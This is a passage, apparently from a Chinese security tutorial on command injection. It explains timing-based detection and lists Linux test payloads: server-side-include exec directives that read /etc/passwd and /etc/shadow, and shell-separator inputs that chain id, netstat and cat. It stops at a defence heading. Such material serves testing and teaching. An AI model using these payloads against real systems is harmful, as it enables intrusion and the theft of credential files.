 通过漏洞扫描器来检测漏洞，对用户输入参数去构造一些命令，然后检测返回结果，最常用的无害命令就是 sleep 函数，看延时情况来判断是否执行成功，无论执行结果有无回显，均可适用。

一些常用的 Linux 平台的命令注入测试用例如下：

复制代码

```
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;

&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;

&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;

&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;

/index.html|id|

;id;

;id

;netstat -a;

;system('cat%20/etc/passwd')

;id;

|id

|/usr/bin/id

|id|

|/usr/bin/id|

||/usr/bin/id|

|id;

||/usr/bin/id;

;id|

;|/usr/bin/id|

……
```

Windows 平台以及其他更多的测试用例可参考 [command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)。

### 漏洞防御
